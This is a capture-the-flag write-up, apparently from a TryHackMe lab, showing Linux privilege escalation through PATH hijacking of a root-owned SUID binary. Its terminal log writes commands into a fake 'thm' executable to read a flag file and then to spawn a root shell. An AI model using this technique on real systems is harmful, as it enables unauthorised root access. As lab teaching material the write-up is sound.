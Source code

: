 The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the “`export PATH=/tmp:$PATH`” command accomplishes this.

  

![](https://i.imgur.com/u1PM8ZD.png)  

  

At this point the path script will also look under the /tmp folder for an executable named “thm”.

Creating this command is fairly easy by copying /bin/bash as “thm” under the /tmp folder.

  

![](https://i.imgur.com/7UdrEnd.png)  

  

We have given executable rights to our copy of /bin/bash, please note that at this point it will run with our user’s right. What makes a privilege escalation possible within this context is that the path script runs with root privileges.


Now, we simply run the “test” file and it will execute our “cat” command and output the contents of the “flag6.txt” file.

>karen@ip-10-10-151-80:/home/murdoch$ touch thm
karen@ip-10-10-151-80:/home/murdoch$ echo "cat /home/matt/flag6.txt"
cat /home/matt/flag6.txt
karen@ip-10-10-151-80:/home/murdoch$ echo "cat /home/matt/flag6.txt" > thm
karen@ip-10-10-151-80:/home/murdoch$ cat thm
cat /home/matt/flag6.txt
karen@ip-10-10-151-80:/home/murdoch$ chmod 777 thm
karen@ip-10-10-151-80:/home/murdoch$ ls -al
total 36
drwxrwxrwx 2 root  root   4096 Sep 25 16:04 .
drwxr-xr-x 5 root  root   4096 Jun 20  2021 ..
-rwsr-xr-x 1 root  root  16712 Jun 20  2021 test
-rwxrwxrwx 1 karen karen    25 Sep 25 16:05 thm
-rw-rw-r-- 1 root  root     86 Jun 20  2021 thm.py
karen@ip-10-10-151-80:/home/murdoch$ nano test
Unable to create directory /home/karen/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

>karen@ip-10-10-151-80:/home/murdoch$ test
karen@ip-10-10-151-80:/home/murdoch$ ./test
THM-736628929
karen@ip-10-10-151-80:/home/murdoch$ 

If i wanted root access

>karen@ip-10-10-151-80:/home/murdoch$ echo "/bin/bash" > thm
karen@ip-10-10-151-80:/home/murdoch$ ./test
root@ip-10-10-151-80:/home/murdoch# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
root@ip-10-10-151-80:/home/murdoch# 
